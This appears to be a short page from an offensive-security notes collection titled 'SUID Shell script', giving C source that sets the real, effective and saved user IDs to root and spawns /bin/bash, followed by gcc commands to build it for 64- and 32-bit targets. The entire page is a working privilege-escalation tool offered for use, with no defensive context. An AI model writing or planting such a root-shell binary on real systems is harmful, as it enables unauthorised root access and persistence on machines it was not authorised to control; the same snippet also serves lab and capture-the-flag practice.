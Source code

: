 ```yaml
---
description: >-
  If  your able to run a executable to escalate privilege, you can use the
  following code to gain root privileges:
---
```


# SUID Shell script

code:

```text
int main(void){ 
    setresuid(0, 0, 0); 
    system("/bin/bash"); 
} 
```

Building the SUID Shell binary: 

`gcc -o suid suid.c`   

For 32 bit: 

`gcc -m32 -o suid suid.c`   

